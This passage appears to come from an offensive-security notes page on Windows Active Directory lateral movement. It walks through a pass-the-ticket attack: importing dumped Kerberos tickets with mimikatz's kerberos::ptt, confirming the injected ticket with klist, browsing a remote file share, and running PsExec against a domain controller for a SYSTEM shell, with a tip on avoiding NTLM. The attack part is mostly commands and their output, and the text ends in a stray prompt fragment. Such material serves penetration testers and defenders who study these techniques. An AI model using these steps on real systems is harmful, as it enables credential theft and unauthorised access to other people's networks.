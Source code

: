 This will generate many files with the following format:\
`[0;12bd0]-0-0-40810000-$USERNAME@$PROTOCOL-$COMPUTER.kirbi`\
where the username, protocol, and computer are filled in with some place the user tried to access. The protocol `cifs` is just SMB in this case, meaning a file share was accessed. We can import these tickets into our current session to get the same privileges that they had:

{% code title="Importing the ticket" %}
```bash
kerberos::ptt [0;12bd0]-0-0-40810000-$USERNAME@cifs-$COMPUTER.kirbi
```
{% endcode %}

Closing `mimikatz.exe`, the `klist` command should now show this injected ticket:

<pre class="language-powershell" data-title="Verifying the import"><code class="lang-powershell"><strong>PS C:\> klist
</strong>
Cached Tickets: (1)

<strong>#0>     Client: $USERNAME @ $DOMAIN
</strong><strong>        Server: cifs/$COMPUTER @ $DOMAIN
</strong>        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

<strong>PS C:\> ls \\$COMPUTER\share
</strong>
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----                                       100 secret.txt
</code></pre>

Another powerful thing we can access through SMB if the user has local administrator rights there is [#psexec-smb](lateral-movement.md#psexec-smb "mention"). This will get us a full system shell on that system, but be careful that you use the HOSTNAME instead of the IP address! Otherwise, it will force an NTLM authentication:

<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\> .\PsExec.exe \\dc01 powershell
</strong>PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

<strong>C:\Windows\system32>
</strong>
# With IP address, Kerberos tickets aren't used:
<strong>PS C:\> .\PsExec.exe \\10.10.10.10 powershell
</strong>PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 10.10.10.10:
<strong>Access is denied.
</strong></code></pre>


[$IP]: PS C:\> whoami